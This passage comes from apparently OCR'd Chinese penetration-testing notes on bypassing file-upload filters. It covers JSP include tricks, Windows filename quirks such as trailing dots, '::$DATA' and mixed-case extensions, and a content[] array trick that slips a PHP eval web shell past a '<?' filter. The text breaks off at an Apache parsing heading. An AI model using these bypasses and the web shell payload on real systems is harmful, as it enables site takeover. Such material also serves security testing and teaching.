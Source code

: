 	```
	<jsp:inclde page="上传的txt文件路径"/>
	```

	or 

	``` 
	<% @include file="上传的txt文件路径" %>
	```

	__配合服务器解析漏洞绕过__

	**配合操作系统文件命名规则绕过**
			
	（1）上传不符合windows文件命名规则的文件名

		test.asp.
		test.asp(空格)
		test.php:1.jpg
		test.php::$DATA
		shell.php::$DATA…….
		若这样命名，会被windows系统自动去掉不符合规则符号后面的内容,我们可以通过抓包，在文件名后加一个空格或者点绕过黑名单，若上传成功，空格和点都会被windows自动消除,这样也可以getshell。
	
	（2）windows下后缀名大小写不敏感

		在windows下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

	其他

		1. 后缀名大小写绕过shell.pHp
		2. 双写后缀名绕过shell.phpphp
		3. 特殊后缀名绕过shell.php3 

	
*	自定义正则校验

	文件上传内容​过滤了​`<?`
	
	后端逻辑是 `file_put_contents `,这个函数的第二个参数可以是一个数组,相当于 

	```
	file_put_contents($filename, join('', $array)) 
	```

	filename要被写入数据的文件名

	因此数组可以绕过内容检查,从而而造成任意文文件上传。

	绕过方法：`content[]`重复传参2次，第一次传了`<`第二次传了`?`成功绕过。
		
		ext=php&content[]=<&content[]=?php​ ​ @eval($_POST['fuck']);​ ​ ?>

##web 应用程序解析漏洞

###Apache
1.扩展名解析顺序漏洞

影响版本：

黑名单：shell.php.abc任意不属于黑名单范畴的扩展名
